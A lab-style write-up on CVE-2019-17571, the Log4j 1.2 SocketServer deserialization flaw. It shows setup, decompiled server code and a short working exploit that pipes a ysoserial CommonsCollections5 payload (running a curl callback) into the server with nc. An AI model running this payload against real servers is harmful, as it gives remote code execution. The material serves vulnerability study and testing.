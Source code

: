# CVE-2019-17571

## Setup

* JankenTestLogServer.jar - Apache Log4j 1.2.X server ( [JankenTestLogServer.jar](/website/assets/files/JankenTestLogServer.jar) )
* [java jdk1.7.0_80](https://files-cdn.liferay.com/mirrors/download.oracle.com/otn-pub/java/jdk/7u80-b15/jdk-7u80-linux-x64.tar.gz)
* [jadx: Java decompiler](https://github.com/skylot/jadx) 
* config.properties - config file with following content

```
log4j.rootLogger=DEBUG, consoleAppender, fileAppender

log4j.appender.consoleAppender=org.apache.log4j.ConsoleAppender
log4j.appender.consoleAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.consoleAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n

log4j.appender.fileAppender=org.apache.log4j.RollingFileAppender
log4j.appender.fileAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.fileAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n
log4j.appender.fileAppender.File=demoApplication.log
```


##### Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)

```bash

$ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
# config.properties file is described above in setup
```

## Finding the bug

Open `JankenTestLogServer.jar` with `jadx` to view the source code. 

![cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)

```java
try {
    logger.info("Listening on port " + port);
    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        logger.info("Waiting to accept a new client.");
        Socket socket = serverSocket.accept();
        logger.info("Connected to client at " + socket.getInetAddress());
        logger.info("Starting new socket node.");
        new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

The code starts Listening on port provided(5111 in our case) and whenever there is a new connection a new Thread is spawn to fulfil the socket request. The following code is responsible for that:

```java

new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();

```

So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`


![cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)

```java

 public SocketNode(Socket socket2, LoggerRepository hierarchy2) {
    this.socket = socket2;
    this.hierarchy = hierarchy2;
    try {
        this.ois = new ObjectInputStream(new BufferedInputStream(socket2.getInputStream()));
    } catch (InterruptedIOException e) {
        Thread.currentThread().interrupt();
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e);
    } catch (IOException e2) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e2);
    } catch (RuntimeException e3) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e3);
    }
}	
```

So the Input from socket stream is read directly into `ObjectInputStream` and this is where Deserialization occurs. So we just need to send a serialized rce object and this will get us rce.


## Exploit

```bash
$ tar -xf jdk-7u80-linux-x64.tar.gz
$ ./jdk-7u80-linux-x64/bin/java -jar ysoserial.jar CommonsCollections5 "curl http://localhost:1111/" > haxtest.bin
$ cat haxtest.bin | nc localhost 5111
```

![cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)


Enjoy the rce



